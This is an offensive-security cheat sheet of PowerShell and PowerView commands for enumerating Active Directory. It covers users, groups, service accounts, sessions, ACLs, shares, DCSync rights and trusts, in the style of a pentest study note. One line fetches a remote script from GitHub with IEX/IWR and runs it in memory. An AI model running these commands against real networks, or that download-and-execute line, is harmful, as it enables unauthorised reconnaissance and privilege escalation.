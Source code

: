 > Also comprehensive: [AD Enumeration Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#domain-enumeration)
# Manual Approach
### Primary DC (PDC):
```powershell
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner.Name
```
and DN:
```powershell
([adsi]'').distinguishedName
```
Then set LDAP path of AD:
```powershell
$LDAP = LDAP://$PDC/$DN
```
(e.g. `LDAP://DCSRV1.beyond.com/DC=beyond,DC=com`)

Also, change the Enumeration Limit:
```powershell
$Global:FormatEnumerationLimit = 100
```

##### Set up `$dirsearcher`
```powershell
$dirsearcher = New-Object System.DirectoryServices.DirectorySearcher(New-Object System.DirectoryServices.DirectoryEntry($LDAP))
```
### User
```powershell
$dirsearcher.filter="samAccountType=805306368"
$result = $dirsearcher.FindAll()
Foreach($obj in $result){ $obj.Properties | select {$_.name}, {$_.memberof}, {$_.logoncount} | Format-List }
```
Alternative: `net user /domain`

### Groups
```powershell
$dirsearcher.filter="objectclass=group"
$result = $dirsearcher.FindAll()
Foreach($obj in $result){ $obj.Properties | select {$_.cn}, {$_.member} | Format-List }
```
Alternative: `net group /domain`
List of default groups: https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups
To get more details on a group: `$dirsearcher.filter="(&(objectCategory=group)(cn=Sales Department))"; $dirsearcher.FindAll()`

### AD-integrated services
```powershell
setspn -L $user
```

### Logged-In users
```powershell
.\PsLoggedon.exe \\$host
```
(SysInternals, requires _Remote Registry service_ on the target which is disabled by default since Windows 8, but enabled on Windows Server 2012 R2, 2016 (1607), 2019 (1809), and Server 2022 (21H2))

### ACEs to an object
```powershell
Get-ObjectAcl -Identity $object [ | ? {"GenericAll", "GenericWrite", "WriteOwner", "WriteDACL" -eq $_.ActiveDirectoryRights} ] | Select ActiveDirectoryRights, SecurityIdentifier
```
The middle part restricts the search to full-access but can be left out.
Permission descriptions:
	GenericAll: Full permissions on object
	GenericWrite: Edit certain attributes on the object
	WriteOwner: Change ownership of the object
	WriteDACL: Edit ACE's applied to object
	AllExtendedRights: Change password, reset password, etc.
	ForceChangePassword: Password change for object
	Self (Self-Membership): Add ourselves to for example a group
The SecurityIdentifier names the principal that has the listed permission to the queued object. As object, we can use the cleartext name to any AD object, e.g., an user, group or share name.
Make SID human readable: `Convert-SidToName $sid` (PowerView)

-----------

# ADPeas
```powershell
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/61106960/adPEAS/main/adPEAS.ps1);Invoke-adPEAS
```
Wrapper arount BloodHound, PowerView and much more.

# PowerView.ps1

##### Users
```powershell
Get-NetUser | select cn, pwdlastset,lastlogon
````

```powershell
Get-NetGroup | select cn, member
```
##### Systems
```powershell
Get-NetComputer | select operatingsystem, operatingsystemversion, dnshostname
```
##### Systems the current user has admin privs on
```powershell
Find-LocalAdminAccess
```
##### Logged-In users
```powershell
Get-NetSession -ComputerName $host -Verbose
```
(Only works below Windows Server 2019 build 1809 or Windows 10 build 1709)
##### AD-integrated services
```powershell
Get-NetUser -SPN | select samaccountname,serviceprincipalname
```
##### Shares
```powershell
Find-DomainShare
```
Use flag `-CheckShareAccess` to only list shares we have access to.
##### Check DCSync Permission
```powershell
Get-ObjectAcl -DistinguishedName "dc=XXX,dc=XXX,dc=XXX" -ResolveGUIDs | ?{($_.IdentityReference -match "XXXUSERNAMEXXX") -and (($_.ObjectType -match 'replication') -or ($_.ActiveDirectoryRights -match 'GenericAll'))}
```
##### Map Trusts
```powershell
Get-NetForestDomain | Get-NetDomainTrust
```

